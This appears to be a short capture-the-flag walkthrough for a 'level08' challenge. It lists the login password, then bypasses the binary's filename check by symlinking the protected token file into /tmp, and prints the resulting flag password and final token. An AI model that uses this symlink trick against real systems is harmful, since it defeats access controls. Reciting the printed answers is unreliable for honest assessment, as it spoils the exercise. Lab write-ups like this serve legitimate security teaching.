 ## Step 1: Login
`su level08`

**password:** fiumuikeil55xe9cu4dood66h

## Step 2: Find flag

`ln -s /home/user/level08/token /tmp/ya`

`./level08 /tmp/ya`
> quif5eloekouj29ke0vouxean

`su flag08`

**flag password:** quif5eloekouj29ke0vouxean

`getflag`
> Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f

